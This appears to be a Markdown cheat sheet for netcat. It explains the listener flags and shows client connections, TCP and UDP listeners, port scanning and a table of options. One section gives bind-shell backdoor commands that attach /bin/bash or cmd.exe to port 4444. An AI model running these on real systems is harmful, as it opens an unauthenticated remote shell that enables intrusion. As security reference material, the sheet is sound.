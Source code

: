 # Netcat

🔹 **BASIC SYNTAX**

```bash
nc [options] [host] [port]
```

🔍 **`-lvnp` Breakdown (used in listeners)**

```
nc -lvnp <port>
```

| Flag | Meaning                            |
| ---- | ---------------------------------- |
| `-l` | Listen mode (acts as a server)     |
| `-v` | Verbose (shows connection details) |
| `-n` | No DNS (don't resolve hostnames)   |
| `-p` | Local port to listen on            |

***

### ✅ Common Netcat Use Cases

🔸 1. **Connect to a TCP Port (Client Mode)**

```bash
nc target_ip port
# Example
nc example.com 80
```

🔸 2. **Start a TCP Listener (Server Mode)**

```bash
nc -l -p port
# Example
nc -l -p 1234
```

🔸 3. **UDP Listener**

```bash
nc -u -l -p port
# Example
nc -u -l -p 5000     
```

🔸 4. **Port Scanning**

```
nc-zv target_ip start_port-end_port
# Example:
nc -zv 192.168.1.1 1-1000
```

🔸5. **Bind Shell (Backdoor - Listener Side)**

```bash
nc -l -p 4444 -e /bin/bash   # Linux
nc -l -p 4444 -e cmd.exe     # Windows
```

⚙️ Other Useful Options

| Option       | Description                                  |
| ------------ | -------------------------------------------- |
| `-v`         | Verbose output                               |
| `-n`         | Numeric IP addresses only (no DNS)           |
| `-u`         | Use UDP instead of TCP                       |
| `-z`         | Scan mode (no send/recv)                     |
| `-w N`       | Timeout after N seconds                      |
| `-k`         | Keep listening after connection ends         |
| `-e program` | Execute program after connection established |



